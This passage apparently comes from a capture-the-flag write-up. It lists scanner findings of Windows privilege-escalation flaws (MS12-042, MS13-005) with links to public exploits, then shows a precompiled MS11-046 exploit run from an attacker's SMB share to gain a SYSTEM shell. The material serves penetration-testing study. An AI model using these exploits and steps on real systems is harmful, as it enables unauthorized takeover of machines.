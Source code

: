 ```
   [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges.
   [>] Exploit: https://www.exploit-db.com/exploits/40564/
   [>] Notes: None.

  [*] Appears vulnerable to MS12-042
   [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in kernel mode.
   [>] Exploit: https://www.exploit-db.com/exploits/20861/
   [>] Notes: None.

  [*] Appears vulnerable to MS13-005
   [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
   [>] Notes: None.

 [*] Finished. Found 5 vulns :)
ERROR> The given key was not present in the dictionary.
ERROR> C:\WINDOWS\System32\win32kfull.sys
ERROR> C:\WINDOWS\System32\gdiplus.dll
ERROR> C:\WINDOWS\System32\coremessaging.dll

```

### MS11-046

A lot of these will have Metasploit modules. But if I’m going to do this without Metasploit, I’ll make use of a GitHub out there from abatchy17 called [WindowsExploits](https://github.com/abatchy17/WindowsExploits). He’s got a folder for MS11-046 with a precompiled exe. If I look through the [source](https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/40564.c#L801) at the very bottom I’ll see this comment:

```

 // spawn SYSTEM shell within the current shell (remote shell friendly)

```

That’s exactly what I’m looking for. A sticking point for a lot of these precompiled exploits is that they launch a new elevated cmd shell, which is only useful if I have remote desktop or keyboard access.

I’ll save the exe in my smb share, and run it, and it doesn’t print anything, but I get a new shell as system:

```

c:\Windows\Microsoft.NET\Framework>\\10.10.14.14\share\MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system

```
